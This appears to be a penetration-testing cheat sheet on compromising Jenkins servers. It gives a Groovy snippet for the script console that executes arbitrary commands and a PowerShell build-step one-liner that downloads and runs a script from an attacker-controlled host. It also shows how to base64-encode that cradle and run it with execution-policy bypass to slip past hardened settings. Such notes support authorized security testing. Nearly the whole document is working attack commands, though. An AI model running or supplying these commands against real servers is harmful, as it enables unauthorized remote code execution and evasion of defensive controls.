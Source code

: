 # Jenkins

Go to 

    http://<IP>/script

on a Jenkins server write

    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = '[INSERT COMMAND]'.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println "out> $sout err> $serr"

Without admin access : add a build step in the build configuration, add "Execute Windows Batch Command" and powershell –c <command>

    powershell -c "iex (new-object system.net.webclient).downloadstring('http://<attacker_IP>/Invoke-HelloWorld.ps1')"

### For more hardened policy

##### On Kali
    echo "iex (new-object system.net.webclient).downloadstring('http://<attacker_IP>/Invoke-HelloWorld.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
##### In Jenkins
    cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <base64_command>
    
